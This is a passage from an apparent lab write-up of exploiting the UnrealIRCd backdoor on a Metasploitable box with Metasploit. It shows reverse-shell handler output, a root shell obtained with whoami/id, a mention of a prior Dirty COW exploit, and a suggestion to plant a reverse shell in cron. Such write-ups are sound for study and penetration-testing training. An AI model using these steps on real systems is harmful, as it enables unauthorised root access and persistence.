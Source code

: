 [*] Started reverse TCP double handler on 192.168.194.139:4444
[*] 192.168.194.136:6667 - Connected to 192.168.194.136:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
[*] 192.168.194.136:6667 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo rZt3l3ydj5ITePyb;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "rZt3l3ydj5ITePyb\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.194.139:4444 -> 192.168.194.136:40211) at 2018-11-29 23:15:01 -0500
{{< / highlight >}}

We launch the msfconsole, select the exploit with `use`, check the `options`, set the RHOST (target) address, and run it with `exploit`. Now we have a shell.

{{< highlight markdown >}}
ls
Donation
LICENSE
aliases
badwords.channel.conf
badwords.message.conf
badwords.quit.conf
curl-ca-bundle.crt
dccallow.conf
doc
help.conf
ircd.log
ircd.pid
ircd.tune
modules
networks
spamfilter.conf
tmp
unreal
unrealircd.conf

whoami
firefart

id
uid=0(firefart) gid=0(root)
{{< / highlight >}}

The first bit of output is from the ls command. Then we check who we are with `whoami` and `id`. I'm user `firefart` because I previously ran [a dirty cow exploit](https://github.com/FireFart/dirtycow/blob/master/dirty.c) on this same box, which created the user firefart with a 0:0 uid:gid. The username is just semantics though, uid of 0 means that we got root on this box from very little effort.From there, we can improve our shell easily with metasploit, plant a reverse shell in cron, or really whatever we want, because we got root. Here's an example of upgrading our shell session (1) to a meterpreter shell, and using that to get a real shell with readline and all the usual shell goodies on the target host.
